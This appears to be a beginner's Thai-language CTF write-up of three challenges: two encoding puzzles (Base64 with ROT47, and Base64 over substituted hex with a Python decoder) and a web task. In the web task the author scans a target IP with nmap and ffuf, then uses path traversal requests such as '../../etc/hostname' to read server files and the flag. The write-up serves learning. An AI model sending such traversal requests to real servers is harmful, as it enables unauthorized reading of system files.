


สวัสดีครับทุกคน ผมมือใหม่ครับ พึ่งมาฝึกเขียน write-up เป็นครั้งแรก ผิดถูกยังไงก็ ขออภัยด้วยนะครับ จริงๆผมก็เคยแข่งมาหลายรายการแล้วหล่ะ แต่ส่วนใหญ่พอแข่งเสร็จแล้วก็ปล่อยเบลอไปเลย 5555 จริงๆมันมีหลายรายการที่ผมไม่ได้เขียนเลย ไว้ถ้าหาไฟล์เก่าๆเจอเดี๋ยวจะมาเขียนเรื่อยๆนะครับ ^^

### Team

- [@tachibana777](#)
- [@jj](#)
- [@heman](#)

## Challenges

<details>
<summary>Challenges ที่ผมทำได้ทั้งหมด</summary>

1. Gemini_Cryptography
2. Stupid Encryption
3. Puzzle Shop

</details>

---

## Gemini_Cryptography

* **โจทย์:** Gemini_Cryptography
* **ประเภท:** Cryptography
* **คำอธิบาย (Description):** 
  > ภาพระยะใกล้ของหน้าจอคอมพิวเตอร์ CRT แบบเก่าที่เปล่งแสงสีเขียวจากข้อความเทอร์มินัลที่ดูสับสนและถูกรบกวน ในห้องที่มืดสลัว หน้าจอแสดงข้อความแจ้งเตือนสีแดงว่า "[SYSTEM_ALERT]: ตรวจพบสัญญาณแทรกแซง..." พร้อมเสียงแทรกซ้อน  
  > ข้อความสิ้นสุดด้วยการแจ้งเตือนสีแดง "[CONNECTION LOST]" และบล็อกข้อมูลสตรีมรหัสสลับที่ด้านล่างสุด  
  > หน้าจอตั้งอยู่บนโต๊ะที่เป็นพิมพ์เก่าและเคสคอมพิวเตอร์ตั้งโต๊ะ แสงสีเขียวสะท้อนบนพื้นผิวโต๊ะโลหะและอุปกรณ์ต่างๆ สร้างบรรยากาศที่ตึงเครียดและเต็มไปด้วยปริศนา  
* **รูปแบบคำตอบ (Flag Format):** `flag{xxxxx-xxxxx-xxxxxx-xxxx}`

---

### 1. อ่านโจทย์และไฟล์ภาพ

เราจะได้รับไฟล์ภาพชื่อ `Gemini_Cryptography.png` 

เมื่อดูข้อความบนหน้าจอ จะพบข้อความแจ้งเตือนและบทสนทนาปริศนา 

```text
[SYSTEM_ALERT]: ตรวจพบสัญญาณแทรกแซง...
[SOURCE]: Unknown (คาดว่าเป็น "The Phantom")
[STATUS]: ข้อมูลเสียหาย 40% ...กำลังพยายามกู้คืน...
--------------------------------------------------
"ฟังนะ... (เสียงซ่า)... พวกมันไม่ได้ส่งมาตรงๆ ...
ฉันเห็นแพทเทิร์นพื้นฐาน... เหมือนมาตรฐานเว็บทั่วไป...
(เสียงขาดหาย)... ฐาน... หก... สิบ... สี่...

\nแต่มันเป็นกับดัก! ...อย่าเพิ่งเชื่อสิ่งที่เห็น...
ข้างในนั้น... โลกมันกลับตาลปัตร...
ตัวอักษรมันดิ้นได้... มันหมุน... หมุนวนไปมา...
(เสียงซ่า)... ประมาณ 47 องศา... หรือ 47 รอบนี่แหละ...
ฉันปวดหัว... ตัวเลขกับสัญลักษณ์มันตีกันมั่วไปหมดในตาราง ASCII..."
--------------------------------------------------
[CONNECTION LOST]

>>> BEGIN STREAM <<<
Nz0yOExIRTRFRVw1NEA1N1w+MkRFNkNcYV9hZE4
>>> END STREAM <<<
```

---

### 2. แกะคำใบ้

ในข้อความสนทนามีคำใบ้ชัดเจน 2 ท่อนที่บอกขั้นตอนการเข้ารหัส:

1. **คำใบ้ที่ 1:** 
   > *"ฉันเห็นแพทเทิร์นพื้นฐาน... เหมือนมาตรฐานเว็บทั่วไป... ฐาน... หก... สิบ... สี่..."*  
   **Base64** อย่างแน่นอน 

2. **คำใบ้ที่ 2:** 
   > *"ตัวอักษรมันดิ้นได้... มันหมุน... หมุนวนไปมา... ประมาณ 47 องศา... หรือ 47 รอบนี่แหละ... ตัวเลขกับสัญลักษณ์มันตีกันมั่วไปหมดในตาราง ASCII..."*  
   "หมุนวน 47 รอบ/องศา ในตาราง ASCII" ตรงกับวิธีการเข้ารหัสแบบ **ROT47** 

Ciphertext ที่อยู่ด้านล่างสุดของหน้าจอคือ:
```text
Nz0yOExIRTRFRVw1NEA1N1w+MkRFNkNcYV9hZE4
```

---

### 3. Cyberchef

นำ `Nz0yOExIRTRFRVw1NEA1N1w+MkRFNkNcYV9hZE4` มา Decode ด้วย Base64



#### ผลลัพธ์ที่ได้:
```text
7=28LHE4EE\54@57\>2DE6C\a_adN
```
จากนั้นนำผลลัพธ์ที่ได้จากการ Decode ด้วย Base64 มา  Decode ด้วย ROT47 ต่อ



#### 🚩 Flag:
```text
flag{wtctt-dcodf-master-2025}
```

---

## Stupid Encryption

* **โจทย์:** Stupid Encryption
* **Hint:** "You have been assigned to prove the security of new encryption algorithm developed by junior diverter"
* **Flag Format:** `TCTT2026{....}`

---

### 1. เปิดไฟล์ก่อนเลยรอช้าอยู่ใย

เปิดไฟล์ `StupidEncryption.txt` เจอข้อความประหลาดที่ลงท้ายด้วยเครื่องหมาย `=` 
```text
RkcgRUMgRUYgSUEgRWggRUogRGogREIgSUEgRUggRWUgRUcgRUYgREkgSUEg...=
```
เลยคิดว่าน่าจะเป็น **Base64** แน่ ๆ จึงทดลอง Decode ออกมา ได้ผลลัพธ์เป็นกลุ่มตัวอักษรคู่ละ 2 ตัว คั่นด้วยช่องว่าง:

```text
FG EC EF IA Eh EJ Dj DB IA EH Ee EG EF DI IA DH DG EJ DI EF EG IA ...
```

---

### 2. เอะใจว่าอาจเป็น Hex แต่ทำไมมีตัวแปลก ๆ?

ตอนแรกมองดูเหมือนเป็น **Hex (เลขฐาน 16)** เพราะมันมาเป็นคู่ละ 2 ตัว 
แต่พอดูดี ๆ ดันมีตัวอักษรที่เกินตัว `F` (เช่น `G, H, I, J`) และมีตัวพิมพ์เล็กด้วย (`e, f, g, h, i, j`) เลยแอบสงสัย

**เลยลองพิสูจน์:**  
ใช้วิธี **"นับจำนวนตัวอักษรที่ไม่ซ้ำกัน"** ในข้อความทั้งหมด เพื่อเช็คว่าคือระบบฐาน 16 จริงไหม:
* ตัวพิมพ์ใหญ่: `A, B, C, D, E, F, G, H, I, J` = **10 ตัว**
* ตัวพิมพ์เล็ก: `e, f, g, h, i, j` = **6 ตัว**
* **รวมกันได้ 10 + 6 = 16 ตัวพอดีเป๊ะ!**

ทำให้มั่นใจ 100% ว่ามันคือ Hex ฐาน 16 แน่นอน เพียงแต่คนออกโจทย์เอาตัวอักษรอื่นมาแทนที่ (Substitution)

---

### 3. ทางลัด: ใช้รูปแบบ Format Flag `TCTT2026{` แกะตารางแปลงค่า

เนื่องจากข้อความยาวและดูรกตามาก จึงใช้วิธีหาท่อนที่เป็น **`TCTT2026{`** จากในข้อความ โดยนำไปเปิดเทียบกับค่า Hex ใน **ASCII Table**:

| ตัวอักษรจริง | ค่า Hex จากตาราง ASCII | Token ในโจทย์ | สิ่งที่เรารู้ทันที |
|:---:|:---:|:---:|:---|
| **T** | `54` | **FG** | `F = 5`, `G = 4` |
| **C** | `43` | **GH** | `H = 3` (ยืนยัน `G = 4`) |
| **T** | `54` | **FG** | `F = 5`, `G = 4` |
| **T** | `54` | **FG** | `F = 5`, `G = 4` |
| **2** | `32` | **HI** | `I = 2` (ยืนยัน `H = 3`) |
| **0** | `30` | **HA** | `A = 0` (ยืนยัน `H = 3`) |
| **2** | `32` | **HI** | `I = 2` |
| **6** | `36` | **HE** | `E = 6` |
| **{** | `7b` | **Di** | `D = 7`, `i = b` |
| **}** | `7d` | **Dg** | `D = 7`, `g = d` |

---

### 4. จับ Pattern: คนเขียนโจทย์ 

พอนำผลลัพธ์ที่แกะได้มาเรียงต่อกัน จะเห็นภาพชัดเจนว่าคนออกโจทย์ใช้วิธี **นับตัวอักษรถอยหลัง**:

#### 4.1 ตัวเลข 0-9 (ตัวพิมพ์ใหญ่ A-J)
* `A` คงที่ไว้เท่ากับ **`0`**
* ที่เหลือ `B ถึง J` นับถอยหลังจาก **`9 ลงไปถึง 1`**:
```text
ตัวอักษร:  A | J  I  H  G  F  E  D  C  B
ตัวเลข:    0 | 1  2  3  4  5  6  7  8  9
```

#### 4.2 ตัวอักษร a-f (ตัวพิมพ์เล็ก e-j)
* สลับหัวท้ายนับถอยหลังเช่นกัน:
```text
ตัวอักษรในโจทย์:  j  i  h  g  f  e
ตัวอักษร Hex:    a  b  c  d  e  f
```

---

### 5. เขียนโค้ดเพื่อถอดรหัส (`stu.py`)

นำตารางที่แกะได้มาเขียนเป็นโปรแกรม Python เพื่อแปลงข้อความทั้งหมด:

```python
import base64

cipher = """RkcgRUMgRUYgSUEgRWggRUogRGogREIgSUEgRUggRWUgRUcgRUYgREkgSUEgREggREcgRUogREkgRUYgRUcgSUEgRUogREcgSUEgREcgRUMgRUYgSUEgRUkgRWggRUIgRWYgRWkgRUIgRWYgRUQgSUEgRUggREYgREkgREggRWUgREkgSWggSUEgRUMgRWUgREEgRUIgRWYgRUQgSUEgREcgRUMgRUYgSUEgREEgREkgRWUgRUQgREkgRUogRWcgSUEgRWcgRUIgRUQgRUMgREcgSUEgREQgREkgRUIgREcgRUYgSUEgRUIgREcgREggRUYgRWggRUUgSWYgSUEgR0ogRUUgREcgRUYgREkgSUEgREcgRUYgRWYgSUEgRWcgRUIgRWYgREYgREcgRUYgREggSUEgRWUgRUUgSUEgRUIgRWYgREcgRUYgRWYgREggRUYgSUEgREEgREkgRWUgRUggREkgRUogREggREcgRUIgRWYgRUogREcgRUIgRWUgRWYgSWggSUEgREcgRUMgREkgRUYgRUYgSUEgRUggREYgREEgREggSUEgRWUgRUUgSUEgRUggRWUgRUUgRUUgRUYgRUYgSWggSUEgRUogRWYgRUcgSUEgRWUgRWYgRUYgSUEgREYgRWYgRWYgRUYgRUggRUYgREggREggRUogREkgREIgSUEgRUUgREkgRUogRWcgRUYgREQgRWUgREkgRWkgSUEgREYgREEgRUQgREkgRUogRUcgRUYgSWggSUEgREcgRUMgRUYgREIgSUEgRUUgRUIgRWYgRUogRWggRWggREIgSUEgREggRWUgRWggREUgRUYgRUcgSUEgREcgRUMgRUYgSUEgREEgREkgRWUgRUkgRWggRUYgRWcgSUEgREQgRUIgREcgRUMgSUEgRUogSUEgREggRUIgREMgSWcgRWggRUIgRWYgRUYgSUEgRUUgREYgRWYgRUggREcgRUIgRWUgRWYgSUEgRUggRWUgREEgRUIgRUYgRUcgSUEgRUUgREkgRWUgRWcgSUEgRUogRWYgSUEgRWUgRWggRUcgSUEgREEgREkgRWUgRWogRUYgRUggREcgSWYgSUEgR0IgREcgSUEgREQgRWUgREkgRWkgRUYgRUcgSUEgREEgRUYgREkgRUUgRUYgRUggREcgRWggREIgSWggSUEgREggRWUgSUEgREcgRUMgRUYgREIgSUEgRUogRUcgRUcgRUYgRUcgSUEgRWUgREEgREcgRUIgRWcgRUIgRGogRUYgSUEgRWggRUogREcgRUYgREkgSUEgREcgRWUgSUEgREcgRUMgRUYgSUEgRUggRWUgRWcgRWcgRUYgRWYgREcgREggSWggSUEgRUggRWUgRWcgRWcgRUIgREcgREcgRUYgRUcgSUEgREcgRUMgRUYgSUEgRUggRWUgRUcgRUYgSWggSUEgRUogRWYgRUcgSUEgREcgRWUgRWUgRWkgSUEgRUogSUEgREQgRUYgRWggRWggSWcgRUYgRUogREkgRWYgRUYgRUcgSUEgRWYgRUogREEgSWYgSUEgR0UgRWggRUogRUQgSUEgRUIgREggSUEgRkcgR0ggRkcgRkcgSEkgSEEgSEkgSEUgRGkgRkMgR2ggR0ogRmogRkIgRkMgR0ggSEEgR0cgSEggRkkgRkMgRGcgSUEgSWogSWogSUEgR2ggRUYgREggRWUgRWYgSUEgR2ggRUYgRUogREkgRWYgSUEgSGogSUEgR0cgRUYgREUgSUEgRkIgRWUgREYgREkgSUEgR2UgREQgRUYgRWYgSUEgR0YgRWYgRUggREkgREIgREEgREcgSUEgR0ogRWggRUQgRWUgREkgRUIgREcgRUMgRWcgSWggSUEgRUIgREcgSUEgRWYgRWUgREcgSUEgREggRUYgRUggREYgREkgRUYgSUEgRUogRWYgRUcgSUEgR0ogR0IgSUEgRUggRUogRWYgSUEgRUYgRUogREggRUIgRWggREIgSUEgRUcgRUYgREcgRUYgRUggREcgSUEgREcgRUMgRUYgSUEgREEgRUogREcgREcgRUYgREkgRWYgSUEgRUogRWYgRUcgSUEgRUcgRUYgRUggRWUgRUcgRUYgSUEgRUIgREcgSWY="""

# Layer 1: Base64 Decode
decoded = base64.b64decode(cipher).decode()

# Layer 2: Custom Hex Mapping
decode_map = {
    'A': '0', 'J': '1', 'I': '2', 'H': '3', 'G': '4',
    'F': '5', 'E': '6', 'D': '7', 'C': '8', 'B': '9',
    'j': 'a', 'i': 'b', 'h': 'c', 'g': 'd', 'f': 'e', 'e': 'f'
}

def decode_token(token):
    high = decode_map[token[0]]
    low = decode_map[token[1]]
    return chr(int(high + low, 16))

plaintext = ''.join(
    decode_token(token) if token != '' else ''
    for token in decoded.split()
)

print(plaintext)
```

---

### 6. ผลลัพธ์ที่ได้

```text
The lazy coder stared at the blinking cursor, hoping the program might write itself. 
After ten minutes of intense procrastination, three cups of coffee, and one unnecessary 
framework upgrade, they finally solved the problem with a six-line function copied from 
an old project. It worked perfectly, so they added optimize later to the comments, 
committed the code, and took a well-earned nap. 

Flag is TCTT2026{XLAZYXC0D3RX} 

** Leson Learn : Dev Your Owen Encrypt Algorithm, it not secure and AI can easily detect the pattern and decode it.
```

#### 🚩 Flag:
```text
TCTT2026{XLAZYXC0D3RX}
```

---

## Puzzle Shop

* **โจทย์:** Puzzle Shop
* **ประเภท:** Web Application
* **Target:** `http://188.166.179.129`
* **คำใบ้ (Hint):** 
  > "Jitlada came to Naomi Jewelry Shop looking for the perfect luxury jewel — something dazzling enough to make every friend at the wedding quietly jealous. But while browsing the collection, she noticed something strange. A tiny detail. A careless mistake. The kind of mistake a developer makes when they think nobody is watching too closely. And Jitlada? She watches closely.  
  > Flag format: TCTT2026{...}  
  > The Flag file (flag.txt) is somewhere on the server"
* **Flag Format:** `TCTT2026{....}`

---

### 1. Nmap 

ก่อนจะเริ่มเราต้องรู้ก่อนว่าเซิร์ฟเวอร์เปิด (Port) และรัน (Service) อะไรไว้บ้าง:

```bash
nmap -Pn -sV 188.166.179.129
```

#### ผลลัพธ์ที่ได้:
```text
PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.18
80/tcp   open     http       nginx 1.24.0 (Ubuntu)
514/tcp  filtered shell
2000/tcp open     tcpwrapped
5060/tcp open     tcpwrapped
```

#### สิ่งที่ได้:
* **Port 80 (HTTP):** เปิดอยู่และรัน **nginx 1.24.0** ซึ่งเป็น Web Server 
---

### 2. ลอง Scan หา Hinden Folder ด้วย fuff 

```bash
ffuf -u http://188.166.179.129/FUZZ \
     -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt \
     -fc 404 -t 40
```

#### สิ่งที่เจอแล้วเอะใจ:
* fuff พ่นชื่อโฟลเดอร์ออกมาเยอะมาก (`includes`, `modules`, `media`, `user`, `search`, ...)
* แต่ทุกชื่อมีขนาด Response เท่ากันหมดคือ **`5931 bytes`** และได้ Status **`200 OK`**

#### ลองยิง URL มั่วๆ ดู เช่น:
```bash
curl -i http://188.166.179.129/this-path-definitely-does-not-exist-123456
```
ปรากฏว่าเว็บก็ยังตอบกลับมาเป็นหน้าแรก `5931 bytes` เหมือนเดิม!  
นั่นแสดงว่าเว็บนี้ทำระบบแบบ **Single Page Application ()** หรือมีการตั้งค่า Nginx ให้ Route ทุกอย่างกลับมาหน้าแรก ทำให้การสแกนหา Path แบบนี้เจอแต่ (False Positive) จึงต้องเปลี่ยนไปดู **Source Code ฝั่งหน้าบ้าน (Client-side)** แทน

---

### 3. `app.js`

เมื่อดู HTML ของหน้าเว็บ จะเห็นว่าเว็บโหลดไฟล์ JavaScript หลักมาทำงาน:
```html
<script src="/app.js?v=7" defer></script>
```

จึงดาวน์โหลดไฟล์ `app.js` ลงมาเปิดอ่านดู:
```bash
curl -s 'http://188.166.179.129/app.js?v=7' -o app.js
```

จากนั้นลองยิง (Request) ไปหา Server:
```bash
grep -nE "fetch|/api" app.js
```

ทำให้เราได้ Endpoint ของระบบมาดังนี้:
* `/api/products` — ดึงข้อมูลสินค้าทั้งหมด
* `/api/products/{productId}` — ดึงข้อมูลรายละเอียดของสินค้าชิ้นนั้นๆ
* `/api/product/image?file=...` — **(จุดนี้แหละที่น่าสงสัยที่สุด!)**

---

### 4. วิเคราะห์ Source Code `app.js`

เมื่อเปิดอ่านโค้ดใน `app.js` ตรงฟังก์ชันเปิดดูสินค้า (`openProduct` บรรทัดที่ 103-106) จะพบโค้ดส่วนนี้:

```javascript
const file = atob(product.assetRef);
const endpoint = ["/api/product", "/image"].join("");
const imageResponse = await fetch(
    `${endpoint}?file=${encodeURIComponent(file)}`, 
    { cache: "no-store" }
);
```

#### ทำความเข้าใจ:
1. ตอนเรากดดูสินค้า เว็บจะเรียกดูรายละเอียด เช่น `/api/products/emerald-elysium`
2. Server ส่งข้อมูลกลับมาเป็น JSON ซึ่งมีค่าแปลกๆ ชื่อ `assetRef`:
   ```json
   {
     "id": "emerald-elysium",
     "name": "Elysium Emerald Pendant",
     "assetRef": "L2ltYWdlcy9wcm9kdWN0cy9lbWVyYWxkLWVseXNpdW0ucG5n"
   }
   ```
3. ค่าที่ลงท้ายด้วยตัวอักษรแบบอาจจะเป็น **Base64** ลองถอดรหัส  (`base64 -d`):
   ```bash
   echo 'L2ltYWdlcy9wcm9kdWN0cy9lbWVyYWxkLWVseXNpdW0ucG5n' | base64 -d
   ```
   จะได้ค่าเป็น:
   ```text
   /images/products/emerald-elysium.png
   ```
4. จากนั้น JavaScript เอาค่า path นี้ไปแปะใน URL เพื่อดึงรูป:
   ```text
   GET /api/product/image?file=/images/products/emerald-elysium.png
   ```

**คาดว่า:**  
Dev พยายาม "ซ่อน" ที่อยู่ของไฟล์ด้วยการแปลงเป็น Base64 ใส่ไว้ใน `assetRef` แต่โค้ดฝั่งหน้าบ้านดัน Decode กลับมาเป็น Path แล้วส่ง Parameter `file=...` ไปสั่งให้ Server หยิบไฟล์นั้นออกมาตรงๆ!

---

### 5. Path Traversal 

เมื่อรู้ว่า Server ยอมให้เราส่ง Parameter `file` ไปเพื่อเปิดอ่านไฟล์  
คำถามคือ: **ถ้าเราใส่ `../` เพื่อกดย้อนโฟลเดอร์ออกไปอ่านไฟล์ระบบ Server จะยอมไหม?**

```bash
curl --path-as-is -i 'http://188.166.179.129/api/product/image?file=../../etc/hostname'
```

#### ผลลัพธ์ที่ได้:
```text
HTTP/1.1 200 OK
Content-Type: application/octet-stream
Content-Length: 13

5a3ef546c2fd
```

Server ตอบกลับมาเป็นเลข `5a3ef546c2fd` ซึ่งเป็นชื่อ hostname ของเครื่องจริงๆ  
แปลว่า Server ไม่ได้บล็อกเครื่องหมาย `../` เลย

---

### 6. ดึง Flag (`flag.txt`) ออกมา

โจทย์บอกตั้งแต่แรกว่า:
> *"The Flag file (flag.txt) is somewhere on the server"*

ในเมื่อเรากดย้อนโฟลเดอร์ออกไปได้แล้ว เราก็แค่สั่งให้มันอ่านไฟล์ `flag.txt` ผ่านช่องโหว่นี้ได้เลย:

```bash
# ทดสอบอ่านไฟล์ flag.txt
curl --path-as-is -s 'http://188.166.179.129/api/product/image?file=../../flag.txt'
# หรือหากอยู่ลึกกว่านั้น สามารถถอย ../ เพิ่มขึ้นไปถึง root
curl --path-as-is -s 'http://188.166.179.129/api/product/image?file=../../../../flag.txt'
```
#### 🚩 Flag:
```text
TCTT2026{...}
```

---
